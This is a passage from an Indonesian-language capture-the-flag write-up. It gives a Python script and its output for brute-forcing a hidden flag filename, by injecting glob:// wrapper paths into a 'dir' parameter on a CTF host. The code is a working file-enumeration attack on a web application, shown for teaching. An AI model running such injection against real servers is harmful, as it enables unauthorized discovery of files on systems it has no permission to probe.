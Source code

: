 Setiap alamat file flag yang sudah dibentuk akan ditampilkan pada output menggunakan fungsi `print()`. Dalam contoh ini, proses brute force hanya menampilkan alamat file flag yang mungkin, namun tidak melakukan aksi apapun terhadap file tersebut. Pada implementasi yang sebenarnya, bisa saja dilakukan operasi untuk membuka dan membaca isi file flag tersebut jika alamat file flag berhasil ditemukan melalui proses brute force ini.

<a id="codespr1342"></a>

## Brute Force Debug 

Sekarang kita gabungkan kode tersebut untuk melakukan brute force

```python
import requests

karakter = "abcdefABCDEF0123456789"

clue = list("flag")

url = "http://ctf.iluv.my.id:9999/"

for brute in karakter:
		kirim = str("glob:///tmp/chall/" + "".join(clue) + brute + "*")

		noob = requests.get(
			url,
			params={
				"dir": kirim,
			},
		)
		print(kirim)
		print(noob.text)
```
```sh
noob@codes:~$ python brute-debug.py
glob:///tmp/chall/flaga*

glob:///tmp/chall/flagb*

glob:///tmp/chall/flagc*

glob:///tmp/chall/flagd*

glob:///tmp/chall/flage*

glob:///tmp/chall/flagf*

glob:///tmp/chall/flagA*

glob:///tmp/chall/flagB*

glob:///tmp/chall/flagC*

glob:///tmp/chall/flagD*

glob:///tmp/chall/flagE*

glob:///tmp/chall/flagF*

glob:///tmp/chall/flag0*

glob:///tmp/chall/flag1*
39
glob:///tmp/chall/flag2*

```
